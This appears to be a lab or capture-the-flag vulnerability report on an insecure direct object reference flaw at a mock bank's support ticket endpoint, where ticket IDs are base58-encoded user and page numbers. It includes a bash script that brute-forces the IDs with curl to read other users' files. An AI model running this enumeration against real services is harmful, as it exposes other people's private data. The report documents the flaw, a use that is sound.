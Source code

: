 # Injection & Server-Side Vulnerabilities

## Insecure Direct Object References (IDOR)

### MEDIUM - IDOR vulnerability leads to unauthorized access and information leakage.
**Asset Domain:** support.quoccabank.com

**Severity Classification:** MEDIUM

**Vulnerability Details**

The 'support.quoccabank.com/raw/' endpoint allows for the user to submit support tickets, but utilizes base58 encoding to obfuscate the generated unique id in the format `user_id:page_number`. Therefore by brute force enumeration, one can view the files of all users on the database.

**Proof of Concepts**

This is the bash script that enumerates all the possible ids and page numbers and prints the response code for the user to `grep`.

```shell
#!/bin/sh
#$1 = id
#$2 = max_number
split_input() {
        local body=$(echo $response| sed 's/{.*}//')
        local json=$(echo $response| sed 's/.*{/{/')
        local response_code=$(echo $json| jq '.response_code')
        echo "number = $i,code = $response_code, file= $file"
        #echo $body
        #echo $json
        if [ $response_code -eq "200" ]
        then
                echo $body | grep '6443'
        fi
}
for i in $(seq 0 10000)
do
        file=$(echo -n "$i:1"| base58)
        #file=$(echo -n "$1:$i"| base58)
        response=$(curl -s --proxy http://127.0.0.1:8080 -k -i "https://support.quoccabank.com/raw/$file" --write-out '%{json}')
        split_input $response $i $file
        sleep 0.1
done
```

For this endpoint `https://support.quoccabank.com/raw/RVnSH2uR` aka `raw/1125:4` encoded in base58

![](images/support1.png)
